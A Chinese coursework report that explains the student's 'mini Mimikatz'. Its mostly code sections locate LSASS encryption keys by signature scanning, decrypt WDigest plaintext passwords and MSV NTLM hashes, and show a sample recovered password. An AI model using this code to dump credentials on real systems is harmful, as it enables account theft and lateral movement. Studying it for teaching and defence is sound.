

# mini 版 Mimikatz

(2024-2025-2)-NIS3358-01-操作系统安全技术与实践

## 1. EnableSeDebugPrivilege()
此函数的作用是启用管理员账户默认禁用的`SeDebugPrivilege`权限，以便后续操作可以访问系统进程和内存。

启用`SeDebugPrivilege`是获取系统敏感信息的前提条件，可以让 Mimikatz 访问和操作其他进程的内存，从而提取敏感信息，如密码散列、明文密码等。

通过调用 Windows API 函数 `OpenProcessToken` 和 `LookupPrivilegeValue`，可以获取当前进程的访问令牌，并启用`SeDebugPrivilege`权限。

参考 Windows 应用开发文档(https://learn.microsoft.com/zh-cn/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--)示例代码中的`SetPrivilege`函数及特权常量表。

| 特权常量 | 字符串值 | 显示名称 |
| --- | --- | --- |
| SE_ASSIGNPRIMARYTOKEN_NAME | SeAssignPrimaryTokenPrivilege | 替换进程级令牌 |
| SE_BACKUP_NAME | SeBackupPrivilege | 备份文件和目录 |
| SE_DEBUG_NAME | SeDebugPrivilege | 调试程序 |
| SE_INCREASE_QUOTA_NAME | SeIncreaseQuotaPrivilege | 调整进程的内存配额 |
| SE_TCB_NAME | SeTcbPrivilege | 以操作系统方式操作 |

查表可知，`SE_DEBUG_NAME`对应的字符串值为`SeDebugPrivilege`，因此可以通过调用文档中的`SetPrivilege`函数来启用该特权，只需设置`lpszPrivilege`等参数即可。

具体实现如下：

```c
BOOL EnableSeDebugPrivilege()
{
	HANDLE hToken = NULL;          // access token handle  
	LPCTSTR lpszPrivilege = SE_DEBUG_NAME;  // name of privilege to enable/disable  
	BOOL bEnablePrivilege = TRUE;   // to enable or disable privilege  

	TOKEN_PRIVILEGES tp;
	LUID luid;

	// Open the process token
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
	{
		printf("OpenProcessToken error: %u\n", GetLastError());
		return FALSE;
	}

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system  
		lpszPrivilege,   // privilege to lookup   
		&luid))          // receives LUID of privilege  
	{
		printf("LookupPrivilegeValue error: %u\n", GetLastError());
		CloseHandle(hToken);
		return FALSE;
	}

	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		tp.Privileges[0].Attributes = 0;

	// Enable the privilege or disable all privileges.  
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %u\n", GetLastError());
		CloseHandle(hToken);
		return FALSE;
	}

	if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
	{
		printf("The token does not have the specified privilege. \n");
		CloseHandle(hToken);
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}
```

此函数首先打开当前进程的访问令牌，然后查找`SeDebugPrivilege`的`LUID`，接着设置`TOKEN_PRIVILEGES`结构体中的`PrivilegeCount`和`Privileges`字段，最后调用`AdjustTokenPrivileges`函数来启用或禁用特权。
如果启用成功，函数返回`TRUE`，否则返回`FALSE`，并打印出错误信息。


### 运行结果


可以看到，`SeDebugPrivilege`特权已成功启用。


## 2. LocateUnprotectLsassMemoryKeys()
此函数的作用是从`lsass.exe`内存中读取出后续对凭据进行AES解密或是3DES解密使用的密钥，即定位`lsasrv.dll`中的三个全局变量，符号名为`h3DesKey`、`hAesKey`和`InitializationVector`并读出实际值，并赋值相应的全局变量`g_sekurlsa_IV`、`g_sekurlsa_AESKey`和`g_sekurlsa_3DESKey`。

此函数的实现分3步：
- 定位并读取`hAesKey`，赋值`g_sekurlsa_AESKey`
- 定位并读取`h3DesKey`，赋值`g_sekurlsa_3DESKey`
- 定位并读取`InitializationVector`，赋值`g_sekurlsa_IV`

### 2.1 获取`hAesKey`
首先使用静态分析软件 IDA Pro 对系统 DLL 文件进行二进制分析。
从复制的`lsasrv.dll`文件中可以找到`hAesKey`：


查看对其进行操作的指令：


定位第一条 lea 指令：


取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

``` cpp
UCHAR keyAESSig[] = { 0x83, 0x64, 0x24, 0x30, 0x00,
				0x48, 0x8d, 0x45, 0xe0,
				0x44, 0x8b, 0x4d, 0xd8,
				0x48, 0x8d, 0x15 };

// 在lsass进程的内存中搜索定位全局变量hAesKey的内存位置
// 获取首条指令 and [rsp+70h+var_40], 0 相对lsasrv.dll模块基址的偏移
keySigOffset = SearchPattern(lsasrvBaseAddress, keyAESSig, sizeof keyAESSig);
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);	// 0x752AB (00000001800752AB & 0xFFFFF)
if (keySigOffset == 0) return;

// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof keyAESSig 上读取4字节的偏移
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof keyAESSig, &aesOffset, sizeof aesOffset);
wprintf(L"aesOffset = 0x%x\n", aesOffset);
```

这里得到了 lea 指令中的小端的32位整数偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof keyAESSig`，然后读取出该偏移处的4字节数据，得到`aesOffset`，即为`hAesKey`相对下一条指令地址的偏移。

```cpp
// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof keyAESSig + 4 + aesOffset 上读取8字节的数据
// .data:0000000180177F58 ?? ?? ?? ?? ?? ?? ?? ?? ?hAesKey@@3PEAXEA dq ?
// 所读取的8字节的数据是一个指向结构体 KIWI_BCRYPT_HANDLE_KEY 的指针
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof keyAESSig + 4 + aesOffset, &keyPointer, sizeof keyPointer);
wprintf(L"keyPointer = 0x%p\n", keyPointer);

// 从lsass进程的内存位置 keyPointer 读取出结构题的实际内容
ReadFromLsass(keyPointer, &hAesKey, sizeof(KIWI_BCRYPT_HANDLE_KEY));
```

根据`aesOffset`的值，计算出`hAesKey`在`lsass.exe`内存中的实际地址，然后读取出该地址处的8字节数据，得到一个指向结构体`KIWI_BCRYPT_HANDLE_KEY`的指针，最后从该指针处读取出实际的密钥内容：

```cpp
// 读取 KIWI_BCRYPT_HANDLE_KEY 结构体中类型为 PKIWI_BCRYPT_KEY81 的成员变量指针所指向的 KIWI_BCRYPT_KEY81 结构体
// AES DES 密钥均使用 KIWI_BCRYPT_KEY81 结构体包裹
ReadFromLsass(hAesKey.key, &extractedAesKey, sizeof(KIWI_BCRYPT_KEY81));

// KIWI_BCRYPT_KEY81 中 hardkey.data包含密钥字节内容， hardkey.cbSecret包含密钥的长度
memcpy(g_sekurlsa_AESKey, extractedAesKey.hardkey.data, extractedAesKey.hardkey.cbSecret);

wprintf(L"AES Key Located (len %d): ", extractedAesKey.hardkey.cbSecret);
HexdumpBytesPacked(extractedAesKey.hardkey.data, extractedAesKey.hardkey.cbSecret);
```

这里读取了`KIWI_BCRYPT_HANDLE_KEY`结构体中的`key`成员变量指针所指向的`KIWI_BCRYPT_KEY81`结构体，获取其中的密钥字节内容和长度，并将密钥内容存储到全局变量`g_sekurlsa_AESKey`中。


### 2.2 获取`h3DesKey`
获取`h3DesKey`的逻辑、步骤与获取`hAesKey`几乎一模一样，只是偏移不同。

定位与`h3DesKey`相关的 lea 指令：


同样取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
UCHAR key3DESSig[] = { 0x83, 0x64, 0x24, 0x30, 0x00,
					0x48, 0x8d, 0x45, 0xe0,
					0x44, 0x8b, 0x4d, 0xd4,
					0x48, 0x8d, 0x15 };

keySigOffset = SearchPattern(lsasrvBaseAddress, key3DESSig, sizeof key3DESSig);
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);	// 0x56970 (0000000180056970 & 0xFFFFF)
if (keySigOffset == 0) return;

// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof key3DESSig 上读取4字节的偏移
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof key3DESSig, &desOffset, sizeof desOffset);
wprintf(L"desOffset = 0x%x\n", desOffset);
```

这里得到了 lea 指令中的偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof key3DESSig`，然后读取出该偏移处的4字节数据，得到`desOffset`，即为`h3DesKey`相对下一条指令地址的偏移。

```cpp
// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof key3DESSig + 4 + desOffset 上读取8字节的数据
// .data:0000000180056A8C ?? ?? ?? ?? ?? ?? ?? ?? ?h3DesKey@@3PEAXEA dq ?
// 所读取的8字节的数据是一个指向结构体 KIWI_BCRYPT_HANDLE_KEY 的指针
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof key3DESSig + 4 + desOffset, &keyPointer, sizeof keyPointer);
wprintf(L"keyPointer = 0x%p\n", keyPointer);

// 从lsass进程的内存位置 keyPointer 读取出结构题的实际内容
ReadFromLsass(keyPointer, &h3DesKey, sizeof(KIWI_BCRYPT_HANDLE_KEY));
```

根据`desOffset`的值，计算出`h3DesKey`在`lsass.exe`内存中的实际地址，然后读取出该地址处的8字节数据，得到一个指向结构体`KIWI_BCRYPT_HANDLE_KEY`的指针，最后从该指针处读取出实际的密钥内容：

```cpp
// 读取 KIWI_BCRYPT_HANDLE_KEY 结构体中类型为 PKIWI_BCRYPT_KEY81 的成员变量指针所指向的 KIWI_BCRYPT_KEY81 结构体
// AES DES 密钥均使用 KIWI_BCRYPT_KEY81 结构体包裹
ReadFromLsass(h3DesKey.key, &extracted3DesKey, sizeof(KIWI_BCRYPT_KEY81));

// KIWI_BCRYPT_KEY81 中 hardkey.data包含密钥字节内容， hardkey.cbSecret包含密钥的长度
memcpy(g_sekurlsa_3DESKey, extracted3DesKey.hardkey.data, extracted3DesKey.hardkey.cbSecret);

wprintf(L"3Des Key Located (len %d): \n", extracted3DesKey.hardkey.cbSecret);
HexdumpBytesPacked(extracted3DesKey.hardkey.data, extracted3DesKey.hardkey.cbSecret);
```

这里读取了`KIWI_BCRYPT_HANDLE_KEY`结构体中的`key`成员变量指针所指向的`KIWI_BCRYPT_KEY81`结构体，获取其中的密钥字节内容和长度，并将密钥内容存储到全局变量`g_sekurlsa_3DESKey`中。


### 2.3 获取`InitializationVector`
获取`InitializationVector`的逻辑、步骤与获取`hAesKey`、`h3DesKey`也比较类似，除偏移量不同外，主要不同点在于`InitializationVector`是一个16字节的数组，而不是一个指针，因此后续也不需要再读取指针指向的结构体。

定位与`InitializationVector`相关的 lea 指令：


同样取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
UCHAR keyIVSig[] = { 0x78, 0x4D,
					0x44, 0x8D, 0x4E, 0xF2,
					0x44, 0x8B, 0xC6,
					0x48, 0x8D, 0x15 };

// 搜索IV特征码
DWORD ivSigOffset = SearchPattern(lsasrvBaseAddress, keyIVSig, sizeof keyIVSig);
if (ivSigOffset == 0) return;

// 读取4字节偏移
ReadFromLsass(lsasrvBaseAddress + ivSigOffset + sizeof keyIVSig, &ivOffset, sizeof ivOffset);
```

这里得到了 lea 指令中的偏移量 相对`lsasrv.dll`模块基址的偏移值`ivSigOffset + sizeof keyIVSig`，然后读取出该偏移处的4字节数据，得到`ivOffset`，即为`InitializationVector`相对下一条指令地址的偏移。

```cpp
// 计算IV全局变量地址
PUCHAR ivAddress = lsasrvBaseAddress + ivSigOffset + sizeof keyIVSig + 4 + ivOffset;

// 直接读取16字节IV数据
ReadFromLsass(ivAddress, g_sekurlsa_IV, sizeof(g_sekurlsa_IV));
wprintf(L"IV Located: ");
HexdumpBytesPacked(g_sekurlsa_IV, sizeof(g_sekurlsa_IV));
```

根据`ivOffset`的值，计算出`InitializationVector`在`lsass.exe`内存中的实际地址，然后直接读取该地址处的16字节数据，存储到全局变量`g_sekurlsa_IV`中。


### 运行结果


可以看到，`hAesKey`、`h3DesKey`和`InitializationVector`均已成功定位并读取出实际值，并存储到全局变量中。


## 3. GetCredentialsFromWdigest()
WDigest 协议的运行需要记录用户的明文密码，存储在 lsass 进程的`wdigest.dll`的全局数据区中，变量的符号名为`l_LogSessList`。该函数通过逆向解密后解析该结构体的成员变量，导出Wdigest缓存在内存中的明文密码。

和`LocateUnprotectLsassMemoryKeys`函数类似，首先需要定位`l_LogSessList`变量在内存中的位置，然后读取该变量的内容。

在`wdigest.dll`中找到`l_LogSessList`变量：


查看对其进行操作的指令：


定位最后一条 lea 指令：



取该 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`wdigest.dll`模块基址的偏移：

```cpp
UCHAR keySig[] = { 0x48, 0xFF, 0x15, 0x52, 0x55, 0x01, 0x00,
					0x0F, 0x1F, 0x44, 0x00, 0x00,
					0x48, 0x8B, 0x1D, 0xC6, 0xB9, 0x01, 0x00,
					0x48, 0x8D, 0x0D };

// 搜索Wdigest特征码
logSessListSigOffset = SearchPattern(wdigestBaseAddress, keySig, sizeof keySig);
if (logSessListSigOffset == 0) return;

// 读取4字节偏移
ReadFromLsass(wdigestBaseAddress + logSessListSigOffset + sizeof keySig, &logSessListOffset, sizeof logSessListOffset);
wprintf(L"logSessListOffset = 0x%x\n", logSessListOffset);
```

这里得到了 lea 指令中偏移量 相对`wdigest.dll`模块基址的偏移值`logSessListSigOffset + sizeof keySig`，然后读取出该偏移处的4字节数据，得到`logSessListOffset`，即为`l_LogSessList`相对下一条指令地址的偏移。

```cpp
// 计算logSessListAddr全局变量地址
ReadFromLsass(wdigestBaseAddress + logSessListSigOffset + sizeof keySig + 4 + logSessListOffset, &logSessListAddr, sizeof logSessListAddr);
wprintf(L"logSessListAddr = 0x%p\n", logSessListAddr);

// 读取logSessListAddr指向的结构体内容
ReadFromLsass(logSessListAddr, &entry, sizeof(KIWI_WDIGEST_LIST_ENTRY));
pList = entry.This;
```

读取`l_LogSessList`指向的结构体内容，得到一个指向`KIWI_WDIGEST_LIST_ENTRY`结构体的指针，然后遍历该链表，读取每个节点的内容。

```cpp
do {
	memset(&entry, 0, sizeof(entry));
	ReadFromLsass(pList, &entry, sizeof(KIWI_WDIGEST_LIST_ENTRY));

	if (entry.UsageCount == 1) {
		UNICODE_STRING* username = ExtractUnicodeString((PUNICODE_STRING)(
			(PUCHAR)pList + offsetof(KIWI_WDIGEST_LIST_ENTRY, UserName)
			));
		UNICODE_STRING* password = ExtractUnicodeString((PUNICODE_STRING)(
			(PUCHAR)pList + offsetof(KIWI_WDIGEST_LIST_ENTRY, Password)
			));

		if (username != NULL && username->Length != 0) wprintf(L"Username: %ls\n", username->Buffer);
		else wprintf(L"Username: [NULL]\n");

		// Check if password is present
		if (password->Length != 0 && (password->Length % 2) == 0) {
			// Decrypt password using recovered AES/3Des keys and IV
			if (DecryptCredentials((char*)password->Buffer, password->MaximumLength,
				(PUCHAR)passDecrypted, sizeof(passDecrypted)) > 0) {
				wprintf(L"Password: %ls\n\n", passDecrypted);
			}
		}
		else {
			printf("Password: [NULL]\n\n");
		}

	}
	pList = entry.Flink;
} while (pList != logSessListAddr);
```

遍历链表中的每个节点，读取用户名和密码的`UNICODE_STRING`结构体，并提取出实际的字符串内容。对于密码，如果存在且长度为偶数，则使用之前定位的密钥和向量进行解密，即调用`DecryptCredentials`函数，得到明文密码。


### 运行结果


可以看到，`GetCredentialsFromWdigest`函数成功提取了 WDigest 缓存中的用户名和明文密码。

其中，

```
Username: Lenovo
Password: wbw123456
```

为当前登录用户，同时也是`Administrator`用户的用户名和明文密码。


## 4. GetCredentialsFromMSV()
Windows 使用 LsaLogonUser API 进行各种用户身份验证。LsaLogonUser API 通过调用身份验证包对用户进行身份验证。默认情况下，LsaLogonUser 调用 MSV1_0 (MSV) 身份验证包。此包包含在 Windows NT 中。MSV 身份验证包将用户记录存储在 SAM 数据库中。此包支持使用Netlogon服务对其他域中的用户进行直通身份验证。
除去 Credential Guard 启用的情况，任何 Windows 版本的系统都能够从`lsass`进程的`lsasrv.dll`的全局数据区的`LogonSessionList`结构体中提取出加密的密码散列。

此函数通过逆向解密后解析该结构体的成员变量，导出 MSV 缓存在内存中的用户名、密码散列。

和`GetCredentialsFromWdigest`函数类似，首先需要定位`LogonSessionList`变量在内存中的位置，然后读取该变量的内容。


查看对其进行操作的指令：


定位最后一条 lea 指令：


取该 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
PUCHAR lsasrvBaseAddress = (PUCHAR)LoadLibraryA("lsasrv.dll");

UCHAR keySig[] = {	0x48, 0xFF, 0x15, 0x27, 0x3C, 0x08, 0x00,
					0x0F, 0x1F, 0x44, 0x00, 0x00,
					0x48, 0xC1, 0xE3, 0x04,
					0x4D, 0x8D, 0xB7 };

keySigOffset = SearchPattern(lsasrvBaseAddress, keySig, sizeof keySig);
if (keySigOffset == 0) return;
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);

// 读取LogonSessionList的偏移量
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof(keySig), &LogonSessionListOffset, sizeof(LogonSessionListOffset));
wprintf(L"LogonSessionListOffset = 0x%x\n", LogonSessionListOffset);
```

这里得到了指令`lea r14, rva ? LogonSessionList@@3PAU_LIST_ENTRY@@A[r15];`中的小端的32位整数偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof keySig`，然后读取出该偏移处的4字节数据，得到`LogonSessionListOffset`。

需要注意的是，与前面`LocateUnprotectLsassMemoryKeys`和`GetCredentialsFromWdigest`函数中定位变量的方式不同的是，这里 rva 表示“相对虚拟地址”（Relative Virtual Address），即`LogonSessionListOffset`是相对于模块基址的偏移，而不是相对于下一条指令的偏移。

因此，全局变量LogonSessionList的地址的计算方式为`lsasrvBaseAddress + LogonSessionListOffset`：

```cpp
// 计算全局变量LogonSessionList的地址
logSessListAddr = (PKIWI_MSV1_0_LIST_63)(lsasrvBaseAddress + LogonSessionListOffset);
wprintf(L"logSessListAddr = 0x%p\n", logSessListAddr);

PKIWI_MSV1_0_LIST_63 pList = logSessListAddr;
```

读取`LogonSessionList`指向的结构体内容，得到一个指向`KIWI_MSV1_0_LIST_63`结构体的指针，然后遍历该链表，读取每个节点的内容。

```cpp
do {
	KIWI_MSV1_0_LIST_63 listEntry;
	KIWI_MSV1_0_CREDENTIALS credentials;

	memset(&listEntry, 0, sizeof(listEntry));
	// 从lsass进程的内存位置pList读取出KIWI_MSV1_0_LIST_63结构体
	ReadFromLsass(pList, &listEntry, sizeof(KIWI_MSV1_0_LIST_63));

	// 读取凭据链表头
	PKIWI_MSV1_0_CREDENTIALS credPtr = listEntry.Credentials;

	while (credPtr) {
		KIWI_MSV1_0_CREDENTIALS credentials;
		memset(&credentials, 0, sizeof(credentials));
		ReadFromLsass(credPtr, &credentials, sizeof(KIWI_MSV1_0_CREDENTIALS));

		if (credentials.PrimaryCredentials) {
			PKIWI_MSV1_0_PRIMARY_CREDENTIALS primaryCredPtr = (PKIWI_MSV1_0_PRIMARY_CREDENTIALS)credentials.PrimaryCredentials;
			KIWI_MSV1_0_PRIMARY_CREDENTIALS primaryCred;
			ReadFromLsass(primaryCredPtr, &primaryCred, sizeof(KIWI_MSV1_0_PRIMARY_CREDENTIALS));

			// 读取加密的凭据缓冲区
			LSA_UNICODE_STRING* credStr = &primaryCred.Credentials;

			if (credStr->Length && credStr->Buffer) {
				// 定义 MSV1_0_PRIMARY_CREDENTIAL_10_1607 结构体
				typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607{
				} MSV1_0_PRIMARY_CREDENTIAL_10_1607, * PMSV1_0_PRIMARY_CREDENTIAL_10_1607;

				// 读取加密的凭据缓冲区
				BYTE encryptedCreds[1024] = { 0 };
				ReadFromLsass(credStr->Buffer, encryptedCreds, credStr->Length);
				BYTE decryptedCreds[1024] = { 0 };
				ULONG decryptedLength = DecryptCredentials((char*)encryptedCreds, credStr->Length, decryptedCreds, sizeof(decryptedCreds));

				PBYTE msvCredentials = decryptedCreds;

				// 处理 UserName

				// 处理 NTLM Hash

			}
		}
		credPtr = credentials.next;
	}
	pList = listEntry.Flink;
} while (pList != logSessListAddr);
```

遍历链表中的每个节点，即结构体`KIWI_MSV1_0_LIST_63`：

```cpp
typedef struct _KIWI_MSV1_0_LIST_63 {
    struct _KIWI_MSV1_0_LIST_63* Flink;	//off_2C5718
    struct _KIWI_MSV1_0_LIST_63* Blink; //off_277380
	// 此处省略一些字段
    LSA_UNICODE_STRING UserName;
    LSA_UNICODE_STRING Domaine;
    PKIWI_MSV1_0_CREDENTIALS Credentials;
    PVOID CredentialManager;
} KIWI_MSV1_0_LIST_63, * PKIWI_MSV1_0_LIST_63;
```

读取其中的凭据链表头`Credentials`，该字段是一个指向`KIWI_MSV1_0_CREDENTIALS`结构体的指针：

```cpp
typedef struct _KIWI_MSV1_0_CREDENTIALS {
    struct _KIWI_MSV1_0_CREDENTIALS* next;
    DWORD AuthenticationPackageId;
    PKIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials;
} KIWI_MSV1_0_CREDENTIALS, * PKIWI_MSV1_0_CREDENTIALS;
```

对于每个凭据，读取`PrimaryCredentials`指向的`KIWI_MSV1_0_PRIMARY_CREDENTIALS`结构体，获取其中的加密凭据缓冲区。

```cpp
typedef struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS {
    struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS* next;
    STRING Primary;
    LSA_UNICODE_STRING Credentials;
} KIWI_MSV1_0_PRIMARY_CREDENTIALS, * PKIWI_MSV1_0_PRIMARY_CREDENTIALS;
```

再读取加密的凭据缓冲区`Credentials`，并使用之前定位的密钥和向量进行解密。参考资料(https://forum.butian.net/share/2215)，此处解密后得到`MSV1_0_PRIMARY_CREDENTIAL_10_1607`结构体：

```cpp
typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607 {
	LSA_UNICODE_STRING LogonDomainName;
	LSA_UNICODE_STRING UserName;
	PVOID pNtlmCredIsoInProc;
	BOOLEAN isIso;
	BOOLEAN isNtOwfPassword;
	// 此处省略一些字段
	BYTE NtOwfPassword[LM_NTLM_HASH_LENGTH];
	/* buffer */
} MSV1_0_PRIMARY_CREDENTIAL_10_1607, * PMSV1_0_PRIMARY_CREDENTIAL_10_1607;
```

读取其中的用户名和密码散列，并进行相应的处理：

```cpp
// 处理 UserName
PLSA_UNICODE_STRING pUserName = (PLSA_UNICODE_STRING)(msvCredentials + offsetof(MSV1_0_PRIMARY_CREDENTIAL_10_1607, UserName));
if (pUserName->Buffer) {
	pUserName->Buffer = (PWSTR)(msvCredentials + ((ULONG_PTR)pUserName->Buffer));
}
if (pUserName->Length != 0 && pUserName->Buffer) {
	wprintf(L"Username: %ls\n", pUserName->Buffer);
}
else {
	wprintf(L"Username: [NULL]\n");
}

// 处理 NTLM Hash
PBYTE pNtOwfPassword = msvCredentials + offsetof(MSV1_0_PRIMARY_CREDENTIAL_10_1607, NtOwfPassword);
wprintf(L"NTLMHash: ");
for (int i = 0; i < LM_NTLM_HASH_LENGTH; ++i) {
	wprintf(L"%02x", pNtOwfPassword[i]);
}
wprintf(L"\n");
```


### 运行结果


可以看到，`GetCredentialsFromMSV`函数成功提取了 MSV 缓存中的用户名和 NTLM 密码散列。

其中的结果，

```
Username: Lenovo
NTLMHash: 52f7d2 ...... a1
```

为当前登录用户，同时也是`Administrator`用户的用户名和 NTLM 密码散列。


## 5. 总结
在本次课程设计，实现了 mini 版 Mimikatz，主要包括启用调试权限、定位并读取 LSASS 内存中的密钥、导出 WDigest 和 MSV 凭据等功能。通过对 Windows 内存结构和逆向工程的深入理解，成功地提取了系统中的敏感信息，如 AES 和 3DES 密钥、WDigest 明文密码以及 MSV NTLM 密码散列。

通过实现这些功能，我对 Windows 系统的内存管理、权限控制以及安全机制有了更深入的理解。特别是在处理 LSASS 进程的内存时，学会了如何使用 Windows API 函数来操作进程令牌和权限，通过启用 SeDebugPrivilege，能够绕过默认的安全限制，访问 LSASS 进程的内存。通过使用静态分析工具 IDA Pro 和动态调试技术，我能够准确地找到所需的内存地址，并成功读取和解密相关数据。

总的来说，这次课程设计让我对 Windows 系统的内存管理和安全机制有了更深入的理解，也提高了我在逆向工程和系统编程方面的技能。相信这些知识和技能将在未来的学习和工作中发挥重要作用。